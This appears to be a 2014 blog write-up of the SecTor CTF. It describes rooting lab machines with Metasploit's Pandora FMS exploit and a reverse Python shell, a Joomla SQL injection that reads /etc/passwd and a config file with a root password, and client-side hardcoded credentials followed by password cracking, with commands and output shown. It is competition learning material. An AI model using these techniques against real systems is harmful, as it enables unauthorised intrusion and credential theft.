 ```yaml
---
layout: post
title: "SecTor CTF 2014"
date: 2014-10-24 02:00:57 -0400
author: [superkojiman]
comments: true
categories: [sector]
---
```


### Solved by superkojiman

[SecTor](http://sector.ca) is an annual security conference held in Toronto. When I heard that the CTF would be back, I signed the team up under our old monicker buhnluv (VulnHub backwards). There was a minimum of 2 players per team, and a maximum of 5. I was initially going to be tackling the challenges with palor from #vulnhub and his co-worker, but unfortunately they were called into work and so I was on my own. 

The CTF was 5 hours long, with 8 machines to hack into. The goal was to get root, read the flag, and submit it for the points. Within the first hour, someone without a team asked to play and was put on my team. [Jason](https://twitter.com/inuk_x) sat with me through the entire game and hacked one of the targets and scored us some points. Another fellow, whose name I unfortunately didn't get, joined us later on and also got one of the boxes and pushed us up in the scoreboard.

Due to the time constraint, I was unable to take proper notes and screenshots for this writeup. I managed to hack into four of the eight targets, one of which I took no notes on. So I'll writeup what I can while it's still fresh in my mind. I also don't remember how many points were allocated to each challenge. The lowest was 200, and the highest I got was 700. One of the teams who got root on the targets would change the flag, and so when we tried to submit it when we hacked in, it got rejected. We had to wait for the admin to verify we had root and give us the points. Because of this, some of the flags I list here may not be correct, but the procedure to get root should be accurate. 


### 192.168.101.13

This target was running a vulnerable version of Pandora FMS that was vulnerable to remote code execution. Getting a shell on the target was easily done using Metasploit's pandora_fms_exec module and a reverse python shell:


```
msf exploit(pandora_fms_exec) > show options

Module options (exploit/linux/http/pandora_fms_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        Use a proxy chain
   RHOST      192.168.101.13   yes       The target address
   RPORT      8023             yes       The target port
   TARGETURI  /                yes       The base path to the Pandora instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  92.168.101.121   yes       The listen address
   LPORT  443              yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Pandora 5.0RC1
```

This exploit actually attempts to escalate to root privileges on its own, and it did a fine job of it:

```
msf exploit(pandora_fms_exec) > exploit

[*] Started reverse handler on 192.168.101.121:443
[*] 192.168.101.13:8023 - Sending payload
[*] 192.168.101.13:8023 - Trying to escalate privileges to root

bash-4.1$ trap '' HUP
bash-4.1$ python -c 'import pty;pty.spawn("/bin/sh")'
sh-4.1$ su - artica
sudo -s
-bash-4.1$ sudo -s
[root@els4 artica]# cat /root/flag.txt
flag_8903789f930f9b824c5968381cd885bb
```

### 192.168.101.20

This target was running a version of Joomla that was vulnerable to SQL inection. Once again, Metasploit to the rescue with auxiliary module joomla_weblinks_sqli. 

```
msf auxiliary(joomla_weblinks_sqli) > show options

Module options (auxiliary/gather/joomla_weblinks_sqli):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CATEGORYID  0                yes       The category ID to use in the SQL injection
   FILEPATH    /etc/passwd      yes       The filepath to read on the server
   Proxies                      no        Use a proxy chain
   RHOST       192.168.101.20   yes       The target address
   RPORT       80               yes       The target port
   TARGETURI   /                yes       Base Joomla directory path
   VHOST                        no        HTTP server virtual host
```

Running the initial test returned the contents of /etc/passwd. After a bit of enumeration, I found /var/www/html/configuration.php which contained the root password:

```php
<?php
class JConfig {
    public $offline = '0';
    public $offline_message = 'This site is down for maintenance.<br /> Please check back again soon.';
    public $display_offline_message = '1';
    public $offline_image = '';
    public $sitename = 'Quick Go Sports';
    public $editor = 'tinymce';
    public $captcha = '0';
    public $list_limit = '20';
    public $access = '1';
    public $debug = '0';
    public $debug_lang = '0';
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'root';
    public $password = 'J2o5gU4gCyc5hXr';
```

SSH was enabled on this target, so I logged in as root with the password J2o5gU4gCyc5hXr and was able to read the flag. 

### 192.168.101.25

Navigating to http://192.168.101.25 showed a login form that gave the user the ability to read the contents of index.php. Looking at the page's source code referenced a JavaScript file admin/auth.js. The contets of this file contained the admin user's login credentials:

```javascript
function login(){
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;
        if(username == 'admin' && password == '@dm1ni$trat0r'){
                document.getElementById('data').innerHTML = "<p>Login Successful!</p>";
                showFile();
        }else {
                document.getElementById('data').innerHTML = "<p>Login Failed!</p>";
        }
}
```

Once I was able to authenticate, I could read any file, like /etc/passwd

![](/images/2014/sector/01.png)

Interestingly, the root password was not shadowed. I was able to crack it using john, which revealed the password as 1234567890. From here I logged in as root via SSH and got the flag:

```text
# ssh root@192.168.101.25
The authenticity of host '192.168.101.25 (192.168.101.25)' can't be established.
RSA key fingerprint is d8:c9:78:07:6d:42:1c:bd:12:cc:33:07:cf:36:d3:d6.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.101.25' (RSA) to the list of known hosts.
1234567890

root@192.168.101.25's password:
Last login: Tue Oct 21 07:06:34 2014 from 192.168.101.106
[root@elw6 ~]# ls
flag.txt
[root@elw6 ~]# cat flag.txt
flag_b96d6f9d438e2cfe6e659abd69e102441
```

### Final thoughts
SecTor CTF was a lot of fun, and I'm pleased with how we did. I was close to scoring a 5th box, but ran out of time. In the end, we placed at second: 

![](/images/2014/sector/02.png) 

I'm annoyed that I didn't take more detailed notes, but at the time, I was just rushing to get as many points as possible. Thanks to Jason and the other fellow who helped out, it was much appreciated! Next year I'll be more mindful about taking notes and perhaps 2015's writeup won't be quite so sparse. 

